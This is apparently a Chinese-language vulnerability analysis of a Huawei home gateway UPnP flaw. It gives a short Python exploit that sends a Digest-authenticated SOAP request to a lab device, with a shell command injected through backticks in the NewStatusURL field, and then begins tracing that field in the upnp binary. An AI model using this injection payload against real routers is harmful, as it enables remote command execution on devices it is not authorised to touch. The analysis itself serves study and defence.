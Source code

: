 




# 3、漏洞分析

## 3.1、exp

```
import requests

headers = {
    "Authorization": "Digest username=dslf-config, realm=HuaweiHomeGateway, nonce=88645cefb1f9ede0e336e3569d75ee30, uri=/ctrlt/DeviceUpgrade_1, response=3612f843a42db38f48f59d2a3597e19c, algorithm=MD5, qop=auth, nc=00000001, cnonce=248d1a2560100669"
}

data = '''<?xml version="1.0" ?>
 <s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
  <s:Body><u:Upgrade xmlns:u="urn:schemas-upnp-org:service:WANPPPConnection:1">
   <NewStatusURL>`./bin/busybox echo longlong > longlong.txt`</NewStatusURL>
   <NewDownloadURL>HUAWEIUPNP</NewDownloadURL>
  </u:Upgrade>
 </s:Body>
</s:Envelope>
'''
requests.post('http://192.168.0.3:37215/ctrlt/DeviceUpgrade_1',headers=headers,data=data)
```

## 3.2、漏洞分析

我们看到exp里面带命令的标签为NewStatusURL，在upnp这个二进制文件进行查找

![](vx_images/370641701038060.png)


